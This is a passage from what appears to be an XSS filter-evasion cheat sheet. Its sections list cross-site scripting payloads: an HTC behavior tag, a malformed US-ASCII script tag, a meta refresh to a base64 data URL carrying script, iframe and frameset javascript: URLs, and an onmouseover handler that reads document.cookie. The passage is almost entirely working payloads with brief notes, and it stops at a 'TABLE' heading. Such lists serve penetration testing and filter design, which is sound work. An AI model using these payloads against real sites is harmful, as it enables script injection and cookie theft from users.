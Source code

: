 ```html
<XSS STYLE="behavior: url(xss.htc);"></XSS>
```

## US-ASCII Encoding

US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.

```html
`¼script¾alert(¢XSS¢)¼/script¾`
```

## META

The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```html
<meta
  http-equiv="refresh"
  content="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"
/>
```

## IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

```html
<iframe src="javascript:alert('XSS');"></iframe>
```

## IFRAME Event Based

IFrames and most other elements can use event based mayhem like the following... (Submitted by: David Cross)

```html
<iframe src="#" onmouseover="alert(document.cookie)"></iframe>
```

## FRAME

Frames have the same sorts of XSS problems as iframes

```html
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

## TABLE
